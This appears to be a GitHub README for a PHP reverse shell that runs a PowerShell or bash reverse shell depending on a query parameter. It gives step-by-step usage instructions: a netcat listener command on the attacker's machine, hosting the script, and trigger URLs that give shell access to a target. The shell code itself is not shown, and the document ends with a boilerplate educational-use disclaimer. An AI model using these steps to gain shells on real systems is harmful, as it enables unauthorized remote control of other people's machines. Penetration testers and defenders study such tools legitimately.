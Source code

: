 # PHP Reverse Shell (Windows/Linux)

This is a simple **PHP reverse shell** that works on both **Windows** and **Linux** systems. It allows you to specify the target operating system via a query parameter, and will execute a PowerShell reverse shell on Windows or a bash reverse shell on Linux.

## How It Works

- **Windows**: Access the script with `?os=windows`, and it will run a **PowerShell** reverse shell on the target machine.
- **Linux**: Access it with `?os=linux`, and it will run a **bash** reverse shell.


![image](https://github.com/user-attachments/assets/a9a38364-a255-457d-89cc-99b98d0f5e04)

## Usage Instructions

### 1. Set Up a Netcat Listener

Before triggering the shell, start a **Netcat listener** on your machine (attacker's machine):

```bash
nc -lvnp 4444
```

### 2. Host the PHP Script

Use PHP’s built-in server to host the reverse shell script:

```bash
php -S 0.0.0.0:8000
```

### 3. Trigger the Reverse Shell

Open a web browser or any HTTP client and visit the PHP script with the appropriate query parameter for the target OS:

- For **Windows**:
  ```plaintext
  http://your-ip:8000/reverse_shell.php?os=windows
  ```

- For **Linux**:
  ```plaintext
  http://your-ip:8000/reverse_shell.php?os=linux
  ```

### 4. Receive the Reverse Shell

Once the reverse shell is triggered, you'll get access to the target machine through your **Netcat listener**.

### Example

```bash
php -S 0.0.0.0:8000
```

Access via browser:
```plaintext
http://your-ip:8000/reverse_shell.php?os=windows
```

## Disclaimer

**Educational Purposes Only**: This script is intended for legal penetration testing or educational use. Unauthorized use of this script is illegal. Please use responsibly in environments where you have explicit permission.
